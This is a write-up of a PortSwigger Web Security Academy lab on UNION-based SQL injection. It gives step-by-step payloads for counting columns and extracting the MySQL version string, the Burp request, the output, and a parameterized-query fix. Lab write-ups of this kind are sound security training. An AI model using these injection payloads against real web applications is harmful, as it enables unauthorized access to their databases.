




# Lab 04: SQL Injection Attack, Querying the Database Type and Version on MySQL and Microsoft

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 21, 2026

---

## 1. Objective
Exploit a `UNION`-based SQL injection vulnerability in the product category filter to find out how many columns the query returns, confirm which columns accept text, and extract the MySQL/Microsoft database version string.

---

## 2. Reconnaissance & Column Enumeration
- **Target Endpoint:** `GET /filter?category=Tech+gifts`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Step-by-Step Enumeration
1. **Comment Syntax Check (`#` vs `--`):**
   - In MySQL, `--` requires a trailing space (`-- `) to act as a comment, so `--` alone returned an **HTTP 500 Internal Server Error**.
   - Switching to `#` (URL-encoded as `%23`) commented out the rest of the query cleanly without needing a space.
2. **Find the Number of Columns (`ORDER BY`):**
   - Tested `' order by 1#` and `' order by 2#` $\rightarrow$ both returned **HTTP 200 OK**.
   - Tested `' order by 3#` $\rightarrow$ returned **HTTP 500 Internal Server Error**.
   - **Result:** The original query returns **2 columns**.
3. **Find Text-Compatible Columns:**
   - Unlike Oracle, MySQL does not require a `FROM` clause. Tested `' UNION select 'a', 'a'#`.
   - The server returned **HTTP 200 OK**, confirming both columns accept text (string) data.

---

## 3. Exploitation & Proof of Concept (PoC)
Both MySQL and Microsoft SQL Server expose their version string through the global variable `@@version`. Since the query has 2 columns, we select `@@version` in the first column and `NULL` in the second.

### Final Payload
```sql
' UNION select @@version, NULL#
```
Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Tech+gifts' UNION select @@version, NULL# HTTP/2
Host: 0a4f001e03a5193881cba2a0008c004d.web-security-academy.net
Cookie: session=[REDACTED]
```

Extracted Database Version
```
8.0.42-0ubuntu0.20.04.1
```

Proof of Exploitation Screenshots
1. Confirming 2 Columns (' order by 2#):
   

3. Confirming Text Data Types (' UNION select 'a', 'a'#):
 

5. Extracting MySQL Version (@@version):
   

7. Lab Completion Banner:
   

## 4. Impact
An attacker can identify the exact database software and OS build (MySQL 8.0.42 on Ubuntu 20.04), allowing them to tailor database-specific UNION attacks to dump sensitive tables such as user credentials.

## 5. Remediation
Primary Fix (Parameterized Queries): Use prepared statements with bound parameters so user input in the category filter is treated strictly as data rather than SQL syntax:
```
// Secure PHP PDO Example for MySQL
$stmt =$pdo->prepare('SELECT * FROM products WHERE category = :category');
$stmt->execute(['category' =>$category]);
$products =$stmt->fetchAll();
```

Input Validation: Restrict the category parameter against a strict allowlist of valid storefront categories.
